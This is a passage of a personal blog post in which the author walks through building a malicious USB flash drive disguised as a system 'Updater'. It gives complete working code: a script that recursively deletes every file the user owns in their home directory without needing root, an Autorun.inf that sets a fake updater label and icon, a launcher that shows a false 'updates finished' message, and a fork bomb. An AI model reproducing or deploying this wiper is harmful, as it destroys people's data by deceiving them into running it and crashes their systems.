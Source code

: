 The next step was to create a bash file that could do actual damage to the system. Inside the updates folder, I made a file called "data.sh", which would be used to destroy the data. I added this code into the file:
```
#!/bin/bash
sleep 5
x=$(eval "whoami")
find $HOME -user $x -exec rm -rf {} \;
```
I added the "sleep 5" command so that the user could view the zenity window for five seconds before watching their files be utterly demolished. The next line of code figures out the user's username, which is needed to run the next command. The find command that comes right after that will find all of the documents that the user owns and deletes them one by one. I didn't use rm -rf /, which is the usual way that people delete files, because that requires root permissions to delete most of those files, and I wanted to be able to run this without asking the user for root permissions. That is why I instead use the find command to find files that the user owns instead of wasting my time with files that the user does not have permission to delete anyways.

I also downloaded an icon that looked sort of like an updating computer, and placed that under the updates folder. This icon will eventually be seen on the user's desktop.

The next thing I did was to go to the root of the flash drive directory (outside the /updates folder), and create a file called Autorun.inf. This is a special file that will tell the operating system certain information about this particular flash drive. I added these lines of code into this file:
```
[autorun]
Open=autorun.sh
Action=Start Updates
Label=Updater
Icon=updates/updater.png
```
This tells the operating system to open "autorun.sh" by default when this flash drive is connected, use the label of "Updater," and use the icon located in the updates folder. It looked something like the image below when I reconnected the flash drive.

<img style="margin-left: auto; margin-right: auto; width: 25%; height: 25%;" src="../../../assets/img/2019-1-25-flash-drive-that-deletes-everything/icon.png" />

Finally, I only had one more little step to do. I just had to create an autorun.sh file that would run when the flash drive was inserted. (By default, linux will usually bring up a pop-up asking the user "Would you like to run the software on this flash drive?" for security reasons. Technically this will not be run right when the flash drive is inserted, but only after the user allows it to run. If it was not setup like this by default, then that could cause a huge security hole because a malicious user could insert a flash drive into any computer and run whatever they wanted.) I created an autorun.sh file at the root directory of my flash drive and put this inside it:
```
#!/bin/bash

cd "$(dirname "$0")"
cd updates

./data.sh | ./updates.sh
./updater --info --text="Your computer has finished all updates."

:(){:|:&};:
```
The first thing that this bash file does is that it changes into the directory of the updates folder. After that, it runs data.sh and updates.sh at the same time (The pipette is used so that when data.sh is done deleting all of the files, updates.sh will also stop as well). After that, it will use zenity to print out a message saying "Your computer has finished all updates." Then the code ends by delivering the fork bomb.
```
:() {
    :|:&
};
:
```
